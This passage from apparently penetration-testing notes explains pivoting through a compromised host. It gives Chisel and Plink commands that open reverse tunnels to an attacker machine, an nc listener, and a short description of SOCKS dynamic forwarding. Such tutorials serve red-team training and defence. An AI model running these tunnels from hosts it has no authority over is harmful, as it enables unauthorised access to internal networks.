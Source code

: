 #### Remote Port Forwarding with Chisel
```bash
# In attacker machine
chisel server -p <listen-port> --reverse

# In  remote machine
chisel client <listen-ip>:<listen-port> R:<attacker-port>:<target-ip>:<target-port>

# In case of above theoretical condition

# In attacker machine
chisel server -p 9999

# In remote machine
chisel client 10.10.0.2:9999 R:9090:10.20.0.5:8080

# After that we can connect to the port 8080 from local machine through port 9090 i.e. localhost:9090

# Forwarding multiple ports
chisel client 10.10.0.2:9999 9090:10.20.0.5:8080 9091:10.20.0.5:8081
```
 
#### Remote Port Forwarding with Plink
```bash
# In an attacker machine, open the port
nc -lvnp 9090

# In a compromised machine
plink.exe -ssh -R attacker-port:victim-ip:victim-port user@attacker-ip

# In case of above theoretical condition
plink.exe -ssh -R 9090:10.20.0.5:8080 user@10.10.0.2
```

### Dynamic Port Forwarding 
- The concept of dynamic port forwarding is introduced to address situations where access or connections to multiple services are needed. It establishes a SOCKS proxy server, enabling communication across a varities of ports. Once a client connects to this specific port, the connection is directed to the remote (SSH server) machine. Subsequently, the remote machine redirects it to a dynamic port on the target destination machine. All connections utilizing the SOCKS proxy are routed to the SSH server, which then manages the transmission of all traffic to their respective ultimate destinations.
<p align="center">
  <p align="center">